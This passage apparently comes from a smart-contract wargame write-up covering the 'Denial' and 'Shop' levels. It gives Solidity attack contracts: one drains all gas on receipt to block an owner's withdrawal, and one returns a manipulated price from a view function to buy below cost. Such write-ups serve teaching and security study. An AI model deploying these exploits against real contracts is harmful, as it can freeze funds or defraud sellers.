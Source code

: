 ```solidity
   partner = _partner;
}
```
After we become the partner, **we have control of the first ether transfer**: `partner.call{value:amountToSend}("");`.<br />
`call` low-level method consumes almost all the gas of the transaction(63/64), so we can create an attacking contract that becomes a partner, and consumes all the gas of the transaction when it receives ether, which will result in reverting the initial transaction, and thus, the owner will not receive ether.

```solidity
contract DenialAttack {

   constructor(Denial _target) {
      _target.setWithdrawPartner(address(this));
   }

   receive() external payable {
      assembly{
         invalid()
      }
      // `invalid` consumes all the remaining gas

      // while(true) {}
   }
}
```
> NOTE1: to consume all the gas, we can use an infinite loop or the invalid() function of assembly
> NOTE2: starting from version ^0.8.0, assert(false) doesn't consume all the remaining gas

[Attack Contract](./contracts/Denial.sol) | [Test script](./test/Denial.test.js)

## 21 - Shop

This level requires us to buy the product for less than the price asked.
This challenge is similar to [Elevator challenge](#11---elevator), but this time the function `price()` defined in the interface is a `view` function, so it can not maintain a state variable. However, we can still make external calls to functions that are `pure` or `view`.<br>

Therefore, to return two values from the `price()` function, we can return a value based on the `isSold` function:
```solidity
function price() external view returns(uint) {
   return target.isSold() ? 1 : 101;
}
```
The complete Attack contract code:
```solidity
contract ShopAttack {

   Shop public target;

   constructor(Shop _target) {
      target = Shop(_target);
   }

   function attack() external {
      target.buy();
   }

   function price() external view returns(uint) {
      return target.isSold() ? 1 : 101;
   }
}
```